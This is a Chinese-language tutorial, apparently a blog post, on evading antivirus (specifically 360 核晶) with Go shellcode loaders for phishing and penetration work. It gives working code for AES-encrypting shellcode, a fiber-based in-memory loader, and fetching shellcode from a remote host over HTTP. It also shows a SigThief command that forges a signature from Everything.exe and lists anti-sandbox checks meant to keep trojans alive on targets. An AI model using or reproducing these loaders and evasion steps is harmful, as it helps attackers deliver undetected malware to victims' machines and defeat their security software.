










# 0x00前言

在渗透和钓鱼过程中，往往需要使用木马上线目标主机来达到持久化、便捷化控制目标主机的目的。`shellcode`由于其自身可塑性高，杀软查杀难度较高，因此通常将木马`shellcode`化后，再进行免杀处理。

执行shellcode的常规流程：

1. 申请虚拟内存
2. 把shellcode写入虚拟内存
3. 以各种方式调用写入shellcode的虚拟内存



常见的调用写入shellcode的虚拟内存

- 入口点劫持注入加载
- 线程劫持注入加载
- NtCreateSection注入加载
- 动态加载
- 系统call加载
- APC注入加载
- TLS回调加载
- SEH异常加载
- NtTestAlert加载
- Fiber加载
- CreateThreadpoolWait加载
- 等等等等

其中不少方法其实已经算是被用烂了只要落地就杀了，后续将带大家寻找可用的shellcode加载器

# 0x01寻找可用shellcode loader

https://github.com/TideSec/GoBypassAV/tree/main/Go_Windows_API

TideSec的GoBypassAV项目为我们收集了大量的可用shellcode加载器，但是由于免杀对一个对抗性的挑战，其中大部分shellcode加载器已经被杀软查的很死了，我们需要从中挑选出可用的shellcode加载器，至于怎么挑选呢？

## 删除掉原有的加密方法



## 使用分离的方式直接读取Shellcode



## 使用杀软进行查杀

我们将修改后的shellcode loader直接编译成EXE

```
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -trimpath -ldflags="-w -s" main.go
```

接下来就是惊心动魄的查杀环节了，我们上360并开启何晶对该EXE进行查杀，如果何晶并没有报毒，那么也就证明了该Shellcode加载器是可使用的，目前笔者对该项目中的Shellcode加载器进行分离，发现目前是有7种shellcode loader 是可以绕过360核晶的，至于是那7种我在这里就不直说了，防止被非法人员利用。反正思路就在这块。

# 0x02实战bypass 360何晶

进过上一步的操作我们是已经找到了可用的 Shellcode 加载器，如果我们想在实战中使用的话，这样是远远不够的因为如果是在钓鱼场景下的利用的话，根本不能使用。

## 硬编码Shellcode

对于怎么传入我们的Shellcode，硬编码直接写死在我们的程序中是一种非常粗暴的方法，坑定是不行的，因为cs生成出来的Shellcode特征太明显了比如说964 bytes和Shellcode的头部fc48这都是非常明显的特征了。

目前常见的去Shellcode特征的方法就是对Shellcode进行AES XOR 等等的加密。

这块我就使用AES方法给大家演示一下吧！  如果想获取完整的AES加密方法 关注公众号回复：免杀 即可拥有

```
func main() {

	// 读取shellcode
	shellcode, _ := ioutil.ReadFile(os.Args[1])
	// shellcode转换为fc 格式
	//fmt.Println(shellcode)
	shellcode_hex := hex.EncodeToString(shellcode)
	// 定义AES key
	key := time.Now().String()[5:29] //根据时间戳生成一个随机AES秘钥
	b, _ := AesEncrypt([]byte(shellcode_hex), []byte(key))
	//fmt.Println("enc_info: " + string(b))
	err := ioutil.WriteFile("key.txt", []byte(key), 0644)
	if err == nil {
		log.Println("AES秘钥生成成功 保存在key.txt中")
	}
	err = ioutil.WriteFile("shellcode.txt", []byte(b), 0644)
	if err == nil {
		log.Println("shellcode 加密成功 保存在shellcode.txt中")
	}
	//解密
	var infoList = [...]string{"abcwsxedd1234567", "456ybds"}
	infoList[0] = key
	infoList[1] = b

	res, _ := AesDecrypt(infoList[1], []byte(infoList[0]))
	fmt.Println(res)
	if bytes.Equal([]byte(shellcode_hex), res) {
		log.Println("success")
	}
}
```



将加密后的Shellcode 以及解密方法 放入我们的Shellcode loader

硬编码部分代码如下，如果想获取完整的硬编码shellcode loader关注公众号回复：免杀 即可拥有

```
var iv = "0000000000000000"

func PKCS5UnPadding(origData []byte) []byte {
	length := len(origData)
	unpadding := int(origData[length-1])
	return origData[:(length - unpadding)]
}
func ees(decodeStr string, key []byte) ([]byte, error) {
	decodeBytes, err := base64.StdEncoding.DecodeString(decodeStr)
	if err != nil {
		return nil, err
	}
	block, err := aes.NewCipher(key)
	if err != nil {
		return nil, err
	}
	blockMode := cipher.NewCBCDecrypter(block, []byte(iv))
	origData := make([]byte, len(decodeBytes))

	blockMode.CryptBlocks(origData, decodeBytes)
	origData = PKCS5UnPadding(origData)
	return origData, nil
}

func main() {
	const (
		MemCommit       = 0x1000
		MemReserve      = 0x2000
		PageExecuteRead = 0x20
		PageReadwrite   = 0x04
	)
	var infoList = [...]string{"aes-key", ""}
	infoList[1] = "shellcode"
	sc, _ := ees(infoList[1], []byte(infoList[0]))
	shellcode, _ := hex.DecodeString(string(sc))

	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
	ntdll := windows.NewLazySystemDLL("ntdll.dll")
	VirtualAlloc := kernel32.NewProc("VirtualAlloc")
	VirtualProtect := kernel32.NewProc("VirtualProtect")
	RtlCopyMemory := ntdll.NewProc("RtlCopyMemory")
	ConvertThreadToFiber := kernel32.NewProc("ConvertThreadToFiber")
	CreateFiber := kernel32.NewProc("CreateFiber")
	SwitchToFiber := kernel32.NewProc("SwitchToFiber")
	fiberAddr, _, _ := ConvertThreadToFiber.Call()
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(shellcode)), MemCommit|MemReserve, PageReadwrite)
	_, _, _ = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	oldProtect := PageReadwrite
	_, _, _ = VirtualProtect.Call(addr, uintptr(len(shellcode)), PageExecuteRead, uintptr(unsafe.Pointer(&oldProtect)))
	fiber, _, _ := CreateFiber.Call(0, addr, 0)
	_, _, _ = SwitchToFiber.Call(fiber)
	_, _, _ = SwitchToFiber.Call(fiberAddr)

}
```



可以看到直接就被干掉了，只不过我们不要灰心，需要分析一下：

- 前期测试我们的Shellcode loader 是不会被查杀！
- 在添加加密AES的Shellcode后反而被杀了！

这个时候主要的原因是因为我们程序的熵太高了，所以被干掉了，具体怎么做跳转到`0x03降低信息熵`这块有详细的解决办法哦


## HTTP分离Shellcode

硬编码Shellcode会导致我们的EXE熵比较高，我们可以使用HTTP.GET方法从互联网上获取Shellcode 从而达到降低熵的问题

具体代码如下

```
resp, err := http.Get("http:/xx.xxx.xxx") 
if err != nil {
fmt.Println("Error getting remote connection:", err)
  return
}
defer resp.Body.Close()

body, err := ioutil.ReadAll(resp.Body)
if err != nil {
  fmt.Println("Error reading from remote connection:", err)
  return
}
encryptedShellcodeStr := string(body)
```



这个时候就可以发现已经OK了



# 0x03降低信息熵

信息熵其实就是一个程序的混乱程度，我们可以通过添加详细信息+签名伪造来降低信息熵

## Restorator添加图标等信息



## SigThief签名伪造

虽然 伪造的数字签名是无效的，但是查杀的时候杀软还是会判断程序是否有签名

```
https://github.com/secretsquirrel/SigThief
python sigthief.py -i "C:\Program Files\Everything\Everything.exe" -t main.exe -o 233.exe
```



最后

硬编码Shellcode +添加详细信息+图标+签名伪造 最后的效果 也是可以bypass的



# 0x04反沙箱

一个马子在实战中坑定会被各种传沙箱检测，为了保证马子存活的时间更长需要加入反沙箱代码。

1. 检测驱动文件(检测驱动文件是否包含虚拟机驱动文件)
2. 检测计算机主机名(检测主机名是否包含虚拟机等字段)
3. 检测CPU核心数(检测CPU核心数是否大于2)
4. 检测进程文件检测是否有虚拟化进程

反沙箱源码 关注公众号回复：免杀 即可拥有

# 0x05思考

对于免杀初学者来说 通过修改 shellcode loder 来达到免杀的效果是一个不错的选择 在实战拥有很好的效果，对于文中的 shellcode loader 只是其中一种方法，怎么去寻找免杀的shellcode 无非就是顺着之前的思路寻找一波就完事了

文章出现的源码 关注公众号回复：免杀 即可拥有
